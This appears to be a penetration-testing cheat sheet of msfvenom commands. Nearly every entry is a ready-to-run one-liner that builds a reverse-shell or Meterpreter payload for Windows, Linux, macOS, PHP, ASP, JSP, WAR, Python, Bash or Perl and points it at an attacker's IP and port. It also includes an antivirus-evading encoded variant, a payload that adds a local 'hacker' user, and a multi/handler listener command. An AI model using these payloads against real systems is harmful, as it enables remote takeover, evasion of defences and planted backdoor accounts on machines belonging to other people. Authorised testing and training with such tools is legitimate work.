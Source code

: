 # msfvenom

% msfvenom, reverse shell

## msfvenom payloads list
```
msfvenom --list payloads
```

## msfvenom - payload windows x86 meterpeter unstagged
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local_ip> LPORT=<local_port> -f exe > shell.exe
```

## Linux Meterpreter Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell.elf
```

## Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > shell.exe
```

## Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<local> -f exe > shell.exe
```

## Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<local> -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

## Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f macho > shell.macho
```

## Web Payloads

## PHP Meterpreter Reverse TCP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw > shell.php
```

## ASP Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp > shell.asp
```

## JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw > shell.jsp
```

## WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war > shell.war
```

# Scripting Payloads

## Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<ip> LPORT=<port> -f raw > shell.py
```

## Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<ip> LPORT=<port> -f raw > shell.sh
```

## Perl Unix Reverse shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<ip> LPORT=<port> -f raw > shell.pl
```

# msfvenom Shellcode

## Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f <language>
```

## Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f <language>
```

## Mac Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f <language>
```

## MCreate User
```
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```

## Metasploit Handler
```
msfconsole -x "use exploits/multi/handler; set lhost <lhost>; set lport <lport>; set payload windows/meterpreter/reverse_tcp; exploit"
```
